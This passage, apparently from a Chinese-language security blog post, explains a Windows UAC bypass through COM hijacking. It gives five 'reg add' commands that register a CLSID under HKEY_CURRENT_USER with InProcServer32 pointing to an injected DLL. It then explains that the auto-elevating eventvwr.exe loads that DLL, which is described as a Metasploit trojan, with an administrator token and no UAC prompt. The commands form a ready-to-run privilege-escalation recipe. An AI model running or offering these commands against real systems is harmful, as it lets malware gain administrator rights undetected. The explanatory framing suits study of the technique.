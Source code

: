 中间的`C:\\Temp\\calc.dll`可以更改为你想要注入的DLL路径（支持绝对路径）。

也可以使用command方式：

```
reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "" /t REG_SZ /d "C:\Temp\calc.dll" /f
reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "LoadWithoutCOM" /t REG_SZ /d "" /f
reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "ThreadingModel" /t REG_SZ /d "Apartment" /f
reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder /v "HideOnDesktop" /t REG_SZ /d "" /f
reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder /v "Attributes" /t REG_DWORD /d f090013d /f
```


### 过程浅析

`eventvwr.exe`将会寻找`{0A29FF9E-7F9C-4437-8B11-F424491E3931}`这个组件，而这个组件又需要加载`InProcServer32`指定的DLL，这个DLL的路径就是MSF上传的木马DLL。当DLL一旦加载到`eventvwr.exe`这个进程中，Windows会复制一个管理员的Access Token给这个DLL创建的进程。


## 0x03 Bypass UAC的原理

这个其实准备在后面深度剖析的，还是要解释一下。

如果劫持`explorer.exe`能不能Bypass UAC呢？

答案：不行

因为`eventvwr.exe`如果是被管理员组的用户打开，将会自动提升权限，Windows中会有很多这类的应用程序。

正是因为具有自动提升权限的属性，我们劫持后，就不会触发UAC了，直接获得有管理员权限。

上面说的只是一种方式，还有多种方式，后面我将会介绍：UAC基础、如何挖掘Bypass UAC的方法。